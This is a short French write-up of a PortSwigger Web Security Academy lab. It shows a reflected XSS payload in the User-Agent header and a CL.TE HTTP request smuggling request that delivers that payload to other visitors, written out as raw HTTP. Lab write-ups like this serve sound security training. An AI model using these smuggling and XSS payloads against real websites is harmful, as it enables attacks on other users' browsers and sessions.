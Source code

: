 # Lab

https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss

## Solution

Dans la description du lab on nous dit qu'il y avait une XSS sur l'User-Agent.

En jouant cette requête, on proc bien une XSS :

```http
GET /post?postId=6 HTTP/2
Host: 0a6b003e038859ac821733e7005600ba.web-security-academy.net
Cookie: session=Q6jt5KuHjbZ7Tm1LkpmRUYleeOqmJa9i
User-Agent: a"/><script>alert(1)</script>
```

Maintenant il faut la smuggle car c'est une self-XSS.

Avec l'extension `HTTP Request Smuggler` on trouve une vulnérabilité HTTP Request Smuggling de type CL.TE.

```http
POST / HTTP/1.1
Host: 0a6b003e038859ac821733e7005600ba.web-security-academy.net
Cookie: session=Q6jt5KuHjbZ7Tm1LkpmRUYleeOqmJa9i
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 152

0


GET /post?postId=6 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```